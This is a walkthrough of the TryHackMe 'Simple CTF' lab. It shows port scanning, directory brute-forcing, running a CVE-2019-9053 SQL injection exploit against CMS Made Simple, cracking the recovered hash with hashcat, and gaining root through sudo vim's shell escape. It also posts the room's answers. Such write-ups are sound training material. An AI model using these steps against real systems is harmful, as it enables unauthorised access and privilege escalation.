

# Simple CTF - May 17, 2025

<figure><figcaption></figcaption></figure>

* Difficulty : <mark style="color:green;">Easy</mark>
* Link : [https://tryhackme.com/room/easyctf](https://tryhackme.com/room/easyctf)
* Creator : [MrSeth6797](https://tryhackme.com/p/MrSeth6797) - [l000g1c](https://tryhackme.com/p/l000g1c)

_Simple CTF is a beginner-friendly Linux machine that focuses on core hacking skills. The challenge involves discovering open ports, finding a hidden web page, using weak credentials to gain access, and then escalating privileges through a misconfigured binary. It is perfect for practicing real-world exploitation techniques in a guided environment._

### Deploy the Machine

First things first, I joined the TryHackMe _Simple CTF_ room and deployed the VM. Once it was up, I copied the IP address and started my enumeration.



### Enumeration

I started by scanning the target to find open ports using `nmap`:

```bash
nmap 10.10.183.190
```

#### ➤ Explanation:

This basic scan checks for default open ports on the target IP.

<figure><figcaption></figcaption></figure>


<mark style="background-color:green;">Question 1 : How many services are running under port 1000? 2</mark>


***

Then, I ran a more detailed scan on the discovered ports (21, 80, 2222) to get service info and save the results:

```bash
nmap -sC -sV -p 21,80,2222 -oN scan.txt 10.10.183.190
```

#### ➤ Explanation:

* `-sC`: Runs default scripts (for common vulnerabilities/info)
* `-sV`: Detects service versions
* `-p`: Scans specific ports (21 = FTP, 80 = HTTP, 2222 = SSH)
* `-oN scan.txt`: Saves output to a file

<figure><figcaption></figcaption></figure>


<mark style="background-color:green;">Question 2 : What is running on the higher port? ssh</mark>




### Web Enumeration (Port 80)

I accessed the website hosted on port 80:

```bash
http://10.10.183.190
```

It displayed the default **Apache2 Ubuntu** page, which means the web server is working, but no site is set up at the root.

***

#### 🔍 Directory Bruteforcing with Gobuster

To look for hidden folders, I used `gobuster`:

```bash
gobuster dir -u http://10.10.183.190 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
common.txt
```

> This tool tries common folder names to find hidden content.

**Result:**\
Found a directory `/simple`

<figure><figcaption></figcaption></figure>

I visited:

```bash
http://10.10.183.190/simple
```

This loaded a website running a CMS (Content Management System).

***

#### 🕵️‍♂️ CMS Detection

After looking at the page, I suspected it was **CMS Made Simple (CMSMS)**.

I confirmed the version in two ways:

1. **From the footer** of the page (bottom of the website)
2. By viewing the **page source** and searching for `ver`

> In the source code, I found:

```
CMS Made Simple version 2.2.8
```

Now that I had the CMS type and version, I moved on to check if this version was vulnerable.

***



**Exploiting CMS Made Simple (CVE-2019-9053)**

After identifying the CMS as **CMS Made Simple version 2.2.8**, I searched for known vulnerabilities:

> **Search Query:** `cms made simple 2.2.8 exploit`

I discovered a known SQL injection vulnerability:

* **Exploit:** [CVE-2019-9053](https://www.exploit-db.com/exploits/46635)

This exploit allows unauthenticated attackers to extract sensitive information via a time-based blind SQL injection in the `m1_idlist` parameter .


<mark style="background-color:green;">Question 3 : What's the CVE you're using against the application?</mark> <mark style="background-color:green;"></mark><mark style="background-color:green;">**(CVE-2019-9053)**</mark>



<mark style="background-color:green;">Question 4 : To what kind of vulnerability is the application vulnerable?</mark> <mark style="background-color:green;"></mark><mark style="background-color:green;">**sqli**</mark>


***

Let me know if you'd like to add a conclusion or any additional details!



## Preparing for Exploit

The available exploit script was written in Python 2. To use it with Python 3, I:

1. **Converted the script** to Python 3 syntax.
2.  **Installed required modules:**

    ```bash
    pip install requests termcolor
    ```
3. **Saved the script** as `cmsms_exploit.py`.



### Running the Exploit

I executed the script to target the vulnerable CMS:

```bash
python3 cmsms_exploit.py -u http://10.10.183.190/simple
```

**Output:**

```
[+] Salt for password found: 1dac0d92e9fea6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```



### Cracking the Password Hash

The extracted password was hashed. Using the salt, I employed **Hashcat** to crack it:

```bash
hashcat -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fea6bb2 /usr/share/wordlists/rockyou.txt
```

**Explanation:**

* `-m 20`: Specifies the hash type (md5($salt.$pass)).
* `-a 0`: Attack mode (dictionary attack).
* `rockyou.txt`: Common password wordlist.

**Result:** Password cracked as `secret`.


<mark style="background-color:green;">Question 5 : What's the password? secret</mark>






### Gaining Access via SSH

With credentials in hand:

* **Username:** mitch
* **Password:** secret

I noticed SSH was running on port **2222** (a non-standard port to deter automated attacks). I connected using:

```bash
ssh mitch@10.10.183.190 -p 2222
```

Upon successful login, I listed the directory contents:

```bash
ls
```

Found the `user.txt` file and displayed its contents:

```bash
cat user.txt
```

**First flag obtained!**


<mark style="background-color:green;">Question 6 : Where can you login with the details obtained? ssh</mark>



<mark style="background-color:green;">Question 7 : What's the user flag? G00d j0b, keep up!</mark>


While listing the contents, I noticed a **suspicious or unusual directory** called: sunbath


<mark style="background-color:green;">Question 8 : Is there any other user in the home directory? What's its name? sunbath</mark>




### Privilege Escalation

To check for commands I could run with elevated privileges:

```bash
sudo -l
```

**Output:**

```
Matching Defaults entries for mitch on this host:
    ...

User mitch may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/vim
```

**Explanation:**

* `NOPASSWD`: No password required.
* `vim`: Can run Vim as root.

This means I can execute Vim with root privileges.


<mark style="background-color:green;">Question 9  : What can you leverage to spawn a privileged shell? vim</mark>




### Spawning a Root Shell via Vim

Using Vim's shell escape feature:

```bash
sudo vim
```

Within Vim, I entered command mode (press Esc) and typed:

```
:shell
```

This opened a shell with root privileges.

To confirm:

```bash
whoami
```

**Output:**

```
root
```

Navigated to the root directory:

```bash
cd /root
ls
```

Found `root.txt` and displayed its contents:

```bash
cat root.txt
```


<mark style="background-color:green;">Question 10  : What's the root flag? XXXXXXXXXXXXXXXXXX</mark>


**Root flag obtained!** Congratulations, you’ve just pwned the machine! **Root flag obtained!**



